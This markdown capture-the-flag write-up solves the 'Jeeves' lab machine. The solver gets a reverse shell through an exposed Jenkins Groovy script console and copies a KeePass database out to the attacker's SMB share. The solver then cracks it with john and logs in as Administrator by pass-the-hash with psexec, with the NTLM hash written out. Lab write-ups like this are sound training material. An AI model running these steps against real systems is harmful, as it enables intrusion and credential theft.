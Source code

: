# Enumeration:
![nmap_scan](images/jeeves/nmap_scan.png) </br> </br>
**Initial Shell:** </br>
Navigating to the webserver we get this: </br>
![website_main_page](images/jeeves/website_main_page.png) </br>
When trying to submit anything, we get this: </br>
![website_error_message](images/jeeves/website_error_message.png) </br>
I tried running a fuzzing scan using gobuster, but I didn't find anything. </br>
I then navigated to the page on port 50000, and saw an error message: </br>
![http_error_msg](images/jeeves/http_error_msg.png) </br>
Tried running a fuzzing scan with gobuster again: </br>
```bash
root@kali# gobuster -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt,.php,.html
=====================================================
/askjeeves (Status: 302)
```
</br>

Browsing to the ```askjeeves``` directory, I saw this page: </br>
![askjenkins_mainpage](images/jeeves/askjenkins_mainpage.png) </br> </br>
Browsing through the system, I found a way to execute arbitrary code on the webserver: </br>
I went to the ```manage jenkins``` tab, and saw this: </br>
![manage_jenkins](images/jeeves/manage_jenkins.png) </br>
This is a groovy script console, to exploit it I used a groovy reverse shell I found on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) </br>
Opened a netcat listener on another terminal, and it worked. </br> </br>
**Proof Of Screenshot:** </br>
![initial_shell](images/jeeves/initial_shell.png) </br> </br>
# Privilege Escalation: 

I solved it in two ways, one way is by exploiting ```Juicy Potato``` and the second way is enumerating and </br>
finding ```kohsuke``` user credentials in the keypass password manager. </br>
I will show the second way since I believe that was the intentional way to solve this machine. </br>
After getting an initial shell , I did a bit of enumeration on ```kohsuke``` user directories </br> 
(The user I got access to), and I found this file in the Documents directory: </br>
![ceh_file](images/jeeves/ceh_file.png) </br>
A ```KDBX``` file is a password manager for Windows. It stores an encrypted database of passwords that can be
viewed only using a master password set by the user. </br>
I copied the file to my Kali Machine with this command: ```copy CEH.kdbx \\10.10.14.21\kali``` </br>
I used ```keepass2john``` to convert it into a hash that we could crack later: </br>
![keepass2john](images/jeeves/keepass2john.png) </br>
I saved it into a file called hash, and cracked it using john the ripper: </br>
```john hash --wordlist=/usr/share/wordlists/rockyou.txt``` </br>
This is the result I got: </br>
![hash_crack](images/jeeves/hash_crack.png) </br>
I Installed the password manager keepassx to open the file: ```sudo apt-get install keepassx``` </br>
Opened the file: </br>
```Database -> Open database -> CEH.kdbx -> Enter moonshine1 as the password.``` </br>
![keepassx_file_opened](images/jeeves/keepassx_file_opened.png) </br>
The only password that stood out was the first one (Backup stuff), it contained a hash that looked like a NTLM hash: </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br>
I tried using 'pass the hash' and log in as an administrator with psexec, and it worked: </br>
```psexec.py Administrator@10.10.10.63 -hashes``` </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br> </br>
**Proof Of Screenshot:** </br>
![privesc_shell](images/jeeves/privesc_shell.png)